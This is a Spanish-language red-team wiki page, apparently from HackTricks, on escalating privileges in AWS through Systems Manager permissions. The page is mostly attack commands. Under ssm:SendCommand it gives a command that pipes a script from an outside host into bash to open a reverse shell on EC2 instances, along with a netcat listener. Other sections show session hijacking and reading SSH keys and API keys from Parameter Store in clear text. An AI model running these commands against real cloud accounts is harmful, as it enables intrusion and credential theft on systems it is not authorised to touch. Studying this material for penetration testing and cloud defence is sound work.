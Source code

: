 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Para más información sobre SSM, consulta:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un atacante con el permiso **`ssm:SendCommand`** puede **ejecutar comandos en instancias** que ejecutan el Amazon SSM Agent y **comprometer el IAM Role** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
En caso de que estés utilizando esta técnica para escalar privilegios dentro de una instancia EC2 ya comprometida, podrías simplemente capturar el rev shell localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impacto Potencial:** Privesc directo a los roles IAM de EC2 adjuntos a instancias en ejecución con agentes SSM en funcionamiento.

### `ssm:StartSession`

Un atacante con el permiso **`ssm:StartSession`** puede **iniciar una sesión similar a SSH en instancias** que ejecutan el agente Amazon SSM y **comprometer el rol IAM** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Para iniciar una sesión, necesitas tener instalado el **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impacto Potencial:** Privesc directo a los roles IAM de EC2 adjuntos a instancias en ejecución con SSM Agents en funcionamiento.

#### Privesc a ECS

Cuando las **tareas de ECS** se ejecutan con **`ExecuteCommand` habilitado**, los usuarios con suficientes permisos pueden usar `ecs execute-command` para **ejecutar un comando** dentro del contenedor.\
Según [**la documentación**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), esto se hace creando un canal seguro entre el dispositivo que usas para iniciar el comando “_exec_” y el contenedor objetivo con SSM Session Manager. (Se necesita el SSM Session Manager Plugin para que esto funcione)\
Por lo tanto, los usuarios con `ssm:StartSession` podrán **obtener un shell dentro de las tareas de ECS** con esa opción habilitada simplemente ejecutando:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impacto Potencial:** Privesc directo a los roles `ECS`IAM adjuntos a tareas en ejecución con `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Un atacante con el permiso **`ssm:ResumeSession`** puede re-**iniciar una sesión similar a SSH en instancias** que ejecutan el Agente SSM de Amazon con un estado de sesión SSM **desconectado** y **comprometer el Rol IAM** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impacto Potencial:** Privesc directo a los roles de IAM de EC2 adjuntos a instancias en ejecución con agentes SSM en ejecución y sesiones desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un atacante con los permisos mencionados podrá listar los **parámetros SSM** y **leerlos en texto claro**. En estos parámetros, a menudo se puede **encontrar información sensible** como claves SSH o claves API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impacto Potencial:** Encontrar información sensible dentro de los parámetros.

### `ssm:ListCommands`

Un atacante con este permiso puede listar todos los **comandos** enviados y, con suerte, encontrar **información sensible** en ellos.
```
aws ssm list-commands
```
**Impacto Potencial:** Encontrar información sensible dentro de las líneas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un atacante con estos permisos puede listar todos los **comandos** enviados y **leer la salida** generada, con la esperanza de encontrar **información sensible** en ella.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impacto Potencial:** Encontrar información sensible dentro de la salida de las líneas de comando.

### Codebuild

También puedes usar SSM para acceder a un proyecto de codebuild que se está construyendo:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
